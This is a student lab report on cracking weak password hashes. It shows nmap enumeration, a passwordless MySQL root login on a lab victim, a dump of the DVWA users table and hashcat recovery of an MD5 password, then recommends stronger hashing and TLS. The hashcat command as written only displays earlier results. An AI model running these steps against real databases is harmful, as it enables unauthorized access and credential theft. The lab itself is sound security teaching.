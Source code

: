 # 🔐 Lab 2: Cryptographic Attacks – Cracking Weak Password Hashes & Exploiting Poor Authentication in Databases

**👨‍💻 Author**: Raja Muhammad Haiqal Shah Bin Raja Muzairil Shah  
**📅 Date**: 25 April 2025  
**⏳ Time Allocation**: 3 Hours  
**📝 Total Marks**: 15  
**🧩 Lab Type**: Hands-On + Report + Demo/Debrief  

---

## 🧠 A. Lab Objectives

1. Identify and exploit cryptographic weaknesses in database authentication and password storage.
2. Perform offline hash cracking after discovering password hashes in a vulnerable database.
3. Investigate real-world cryptographic failures and propose secure solutions.
4. Document findings clearly in GitHub (Markdown) and present a short demo/debrief.

---

## 🛠️ Tools Used

- `Kali Linux` (OS)
- `nmap` (Service enumeration)  
- `mysql-client` (Database access)  
- `hashid` / `hash-identifier` (Hash detection)  
- `hashcat` / `john` (Hash cracking)  
- `wireshark` (Traffic analysis – optional)

---

## 🌐 IP Addresses

- **Attacker**: `192.168.157.142`  
- **Victim**: `192.168.157.137`  

---

## 🧩 B. Lab Tasks

### 1. 🔍 Service Enumeration and Initial Access

**Command Used:**

```bash
nmap -sV -p 3306 192.168.157.137 > nmap.txt

```
![nmap](screenshot/nmap_scan.png)

- Identified that **MySQL** was running on port **3306**.

**Attempting Connection:**

```bash
mysql -h 192.168.157.137 -u root --password=""
```

**Error Encountered:**
```vbnet
ERROR 2026 (HY000): TLS/SSL error: wrong version number
```

**Solution:**

```bash
mysql -h 192.168.157.137 -u root --password="" --ssl=0
```

![fix command](screenshot/fix_command.png)

✅ **Resolved**: TLS version mismatch between MySQL client and server.

> **Note**:  
> MySQL versions prior to 5.7.11 do not support `--ssl-mode`. Use `--ssl=0` to disable SSL.

---

### 2. 🧑‍💻 Enumeration of Users and Authentication Weaknesses

```sql
USE dvwa;
SHOW TABLES;
```

**Expected Output:**

![table dvwa](screenshot/table.png)

**Querying user data:**

```sql
SELECT * FROM users;
```

- Found usernames and MD5 password hashes.
- Selected user admin for cracking.

![users](screenshot/users.png)

**Saved hash to file:**

```bash
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hash.txt
```

> ⚠️ **Reflection Question**:  
> Is accessing a database with no password a cryptographic failure?  
> ✅ Absolutely — it violates basic secure authentication practices.

---

### 3. 🔍 Password Hash Discovery & Identification

Used `hash-identifier`:

```bash
hash-identifier 5f4dcc3b5aa765d61d8327deb882cf99
```

- Detected as **MD5** hash.

![hash indentify](screenshot/hash_indentify.png)

> ⚠️ **Reflection**:  
> Why is MD5 considered insecure? 
> - It’s fast and unsalted, making it highly vulnerable to rainbow tables and brute-force attacks.



---

### 4. 🧨 Offline Hash Cracking

Used Hashcat to perform brute-force on the MD5 hash:

```bash
hashcat -m 0 hash.txt --show > result.txt
```

✅ **Result:**
```makefile
5f4dcc3b5aa765d61d8327deb882cf99:password
```

![hashcatresult](Screenshots/hashcatresult.png)

**Cracked Password**: `password`

> This is one of the most common weak passwords — easily guessable and widely used.

---

### 5. 🔐 Cryptographic Analysis & Mitigation

#### 🔎 Weakness Summary

Area | Issue
Authentication | Weak/missing passwords
Hashing | Unsalted MD5 hashes
Transmission | Unencrypted data in transit

#### 🔧 Recommendations:

- **Authentication**: Enforce password complexity rules and use rate limiting (`fail2ban`, `CAPTCHA`).
- **Hashing**: Replace MD5 with bcrypt, scrypt, or Argon2.
- **Transmission**: Use **TLS/SSL** for all database connections.

#### 🕵️ Wireshark Observation:
Traffic captured showed unencrypted SQL queries and sensitive data in transit.


![wireshark](screenshot/wireshark.png)
---

## ✅ Conclusion

This lab exercise demonstrated the serious risks posed by outdated cryptographic practices in modern systems. Weak credentials, insecure hashing algorithms, and lack of encrypted communication can all be exploited.

To secure such systems:
- Enforce strict password and authentication policies.
- Use modern, slow, and salted hashing algorithms.
- Encrypt all traffic between clients and servers.

🔒 **Legacy systems should always be reviewed for cryptographic flaws.**